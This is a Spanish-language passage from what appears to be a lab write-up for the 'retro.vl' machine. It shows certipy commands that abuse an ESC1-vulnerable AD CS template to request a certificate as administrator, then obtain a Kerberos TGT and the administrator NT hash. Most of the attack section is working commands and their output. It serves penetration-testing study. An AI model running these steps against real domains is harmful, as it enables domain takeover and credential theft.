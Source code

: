 - `retro.vl` usa **AD CS** y además usa varios **templates** que hay uno vulnerable.

## ESC1 template

- Vemos que el template es vulnerable a **ESC1** que afecta a todos los equipos del dominio, los equipos del dominio tienen la capacidad de inscribirse (enroll) para obtener certificados, y que el solicitante (enrollee) puede proporcionar el sujeto del certificado. Además, la plantilla de certificado permite la autenticación del cliente. La plantilla que se utiliza es **RetroClients** <https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/> .

- Podemos usar **certipy** para solicitar un certificado.
 
- Vemos que nos dice que existe un mínimo para la **key RSA**.

```bash
➜  content certipy-ad req -u 'BANKING$'@retro.vl -p Passwordxd1234 -dc-ip 10.10.121.174 -ca retro-DC-CA -template RetroClients -upn administrator@retro.vl
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094811 - CERTSRV_E_KEY_LENGTH - The public key does not meet the minimum size required by the specified certificate template.
[*] Request ID is 8
Would you like to save the private key? (y/N)
```

<p align="center">
<img src="https://i.imgur.com/D8qaMXn.png">
</p>

- Vamos a proporcionar la medida exacta para que funcione.

```bash
➜  content certipy-ad req -u 'BANKING$'@retro.vl -p Passwordxd1234 -dc-ip 10.10.121.174 -ca retro-DC-CA -template RetroClients -upn administrator@retro.vl -key-size 4096
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 10
[*] Got certificate with UPN 'administrator@retro.vl'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

- Ahora vamos a autenticarnos para obtener le **TGT** este es un tipo de credencial que se utiliza en el protocolo **Kerberos** para autenticar a un usuario en un dominio.

```bash
➜  content certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.121.174
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@retro.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@retro.vl': ********************************:********************************
➜  content
```

